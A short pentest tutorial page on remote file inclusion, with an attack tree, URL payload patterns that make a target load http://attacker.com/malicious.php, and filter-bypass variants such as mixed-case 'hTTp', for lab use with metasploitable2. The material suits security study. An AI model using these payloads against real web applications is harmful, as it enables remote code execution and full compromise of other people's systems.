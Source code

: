 # Shell from remote file inclusion vulnerabilities

Using remote file inclusion (RFI), an adversary can cause a web application to include a remote file. 
This is possible for web applications that dynamically include external files or scripts. Potential web security 
consequences of a successful RFI attack range from sensitive information disclosure and 
[Cross-site Scripting (XSS)](xss.md) to [remote code execution](rce.md) and, as a final result, 
full system compromise.

## Attack tree

```text
1 Inject code in remote server
    1.1 Create payload (use other extension to prevent local server from executing it)
    1.2 Start listener on hacking machine
    1.3 Add url of payload location to url of the target server
    1.4 Send commands
```

## Base patterns

```text
http://example.com/index.php?page=http://attacker.com/malicious.php
http://example.com/index.php?page=\\attacker.com\shared\malicious.php
```

The payload must be stored in a location which is accessible by the remote target (on the same network).
If having created the malicious file as, for example a `.txt` file to prevent it from being executed by the local server, add a `?`

```text
http://example.com/index.php?page=http://attacker.com/malicious.txt?
```

If filtering is used, it is unlikely this is on `.`, `/`, `\\` digits or alphanumeric. Could be filtering on `https://` 
and `http://`, so try:

```text
http://example.com/index.php?page=hTTp://attacker.com/malicious.txt?
```

## Notes

If PHP is configured to `allow_url_fopen` and `allow_url_include` (in `etc/php5/cgi/php.ini`), then the
[Local inclusion file attack](lfi.md) can be used as a remote file inclusion attack.

If playing with metasploitable2, set these two to `On` and restart apache2: `sudo /etc/init.d/apache2 restart`

## Cheatsheets

* [Path Traversal Cheat Sheet: Windows](https://www.akimbocore.com/article/windows-path-traversal-cheat-sheet/)
* [Path Traversal Cheat Sheet: Linux](https://www.akimbocore.com/article/linux-path-traversal-cheat-sheet/)

